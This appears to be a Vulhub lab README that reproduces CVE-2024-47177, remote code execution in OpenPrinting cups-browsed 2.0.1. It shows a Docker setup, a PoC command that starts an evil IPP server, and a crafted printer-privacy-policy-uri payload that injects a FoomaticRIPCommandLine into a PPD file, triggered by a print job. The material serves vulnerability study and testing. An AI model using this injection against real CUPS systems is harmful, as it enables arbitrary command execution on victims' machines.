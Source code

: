 # OpenPrinting Cups-Browsed Remote Code Execution via The FoomaticRIPCommandLine PPD parameter (CVE-2024-47177)

[中文版本(Chinese version)](README.zh-cn.md)

OpenPrinting CUPS (Common Unix Printing System) is an open-source printing system developed for Unix-like operating systems. It allows computers to act as print servers, managing local and network printers efficiently. Cups-Browsed is a daemon that is part of the CUPS system, specifically designed to browse for remote printers shared by other CUPS servers on the network. It facilitates automatic discovery and configuration of network printers, making it easier for users to access and use shared printing resources across a network without manual setup.

In the version 2.0.1 and before of Cups-Browsed, there is an issue from improper handling of the `FoomaticRIPCommandLine` parameter in PPD (PostScript Printer Description) files. An attacker can exploit this vulnerability by creating a malicious IPP (Internet Printing Protocol) server that sends crafted printer information to a vulnerable Cups-Browsed instance, then execute arbitrary command on the system that vulnerable Cups-Browsed is running.

Reference:

- <https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/>
- <https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8>

## Vulnerable Environment

Execute the following command to start a CUPS server 2.4.7 and vulnerable cups-browsed 2.0.1:

```
docker-compose up -d
```

After the server is running, you can access the CUPS web interface via `http://<your-ip>:631`.

## Exploit

First, download the [evil-ipp-server](https://github.com/vulhub/evil-ipp-server) project and run the [poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py):

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

This script will start a evil IPP server on the `[evil-ipp-server-ip]` and send a UDP packet to the vulnerable Cups-Browsed on the target machine which IP is `[target-ip]`.

Once the Cups-Browsed received the request, it will try to connect to the evil IPP server. The IPP server will send back some attributes including a crafted `printer-privacy-policy-uri` attribute. The payload structure likes following:

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

After that, Cups-Browsed will create a temporary PPD file in `/tmp/` and our payload will be injected in the file. The screenshot below shows the related logs from Cups-Browsed:

![](1.png)

At this time, the command haven't been executed, because we need at least one print job to trigger the execution of the command.

Print jobs can come from regular users or attackers. If TCP port 631 is open, we can use a browser to access it and find the malicious IPP server we just added, then create a "test page printing" job:

![](2.png)

Then you can see, the `echo 1 > /tmp/I_AM_VULNERABLE` command has been executed successfully.

![](3.png)
